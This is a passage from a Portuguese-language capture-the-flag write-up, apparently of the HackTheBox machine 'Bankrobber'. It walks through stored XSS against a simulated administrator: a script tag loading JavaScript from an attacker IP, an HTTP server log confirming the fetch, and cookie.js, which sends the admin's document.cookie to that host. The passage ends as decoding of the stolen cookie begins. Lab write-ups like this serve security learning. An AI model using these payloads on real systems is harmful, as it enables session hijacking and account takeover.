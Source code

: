 Já que, aparentemente, esta máquina está a dizer que um administrator irá abrir a transação dentro de instantes, poderá significar ques existe alguma tarefa automática que simula um administrador a abrir a nossa mensagem. Vamos primeiro tratar de identificar se existe uma falha conhecida como XSS (Cross-site scripting), introduzindo no campo de comentário o seguinte código:

```html
<script src="http://10.10.14.9/test.js"></script>
```

Esse código faz com que, se existir a tal vulnerabilidade, o browser por onde o administrador simulado abre a transação, execute esse código javascript, que por sua vez tenta adquirir um outro ficheiro denominado test.js localizado em http://10.10.14.9/. É claro que para verificar se o código é executado, é necessário disponibilizar este serviço http:

```bash
sudo python3 -m http.server 80
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] code 404, message File not found
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] "GET /test.js HTTP/1.1" 404 -
```

Aí está!! Um tentativa de GET. Confirma-se o XSS. Sendo assim, podemos criar um ficheiro.js para que, quando o browser do administrador que ler a transação fizer o download de o novo ficheiro.js malicioso, esse ficheiro será também executado pelo browser. **NOTA: É importante referir que o browser não consegue executar código do systema. O seu escopo é apenas e só no browser**

> ficheiro: cookie.js

```javascript
var request = new XMLHttpRequest()
request.open('GET', 'http://10.10.14.9/test.js?cookie=' + document.cookie, true)
request.send()
```

![Cookie hijack](Assets/HTB-Windows-Insane-Bankrobber/cookie_hijack.png)

Na imagem, é possível ver o cookie de um usuário (supostamente administrador pelo que o alerta nos informou). Esse cookie está "encoded". Primeiro podemos reverter o "urlencoded" com ajuda do php em modo interativo. O resultado é o seguinte:
